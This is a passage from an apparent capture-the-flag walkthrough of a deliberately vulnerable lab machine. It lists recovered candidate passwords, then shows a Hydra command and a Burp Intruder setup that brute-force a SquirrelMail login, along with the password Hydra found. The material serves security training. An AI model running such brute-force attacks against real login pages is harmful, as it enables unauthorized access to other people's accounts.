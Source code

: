 ```
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```

The rest seem to be empty.

So it looks like we have a potential username of `milesdyson` from `attention.txt` and a list of passwords, let's see if we can't crack his password.

---

## Squirrelmail

### Method 1

Using Hydra:

`hydra -l milesdyson -P log1.txt <target IP> http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."`

Great! hydra found a password:

`[80][http-post-form] host: 10.10.27.165   login: milesdyson   password: cyborg007haloterminator`

### Method 2
We could have also used BurpSuite for this with the sniper function and using the `log1.txt` as the payload.

![burp](/assets/img/thm/skynet/burp.png)

Capture your login attempt with Burp and send it to intruder. You want to add your payload marker in the `secretkey` spot. The line should look like this: `login_username=§milesdyson§&secretkey=§§§&js_autodetect_results=§1§&just_logged_in=§1§`
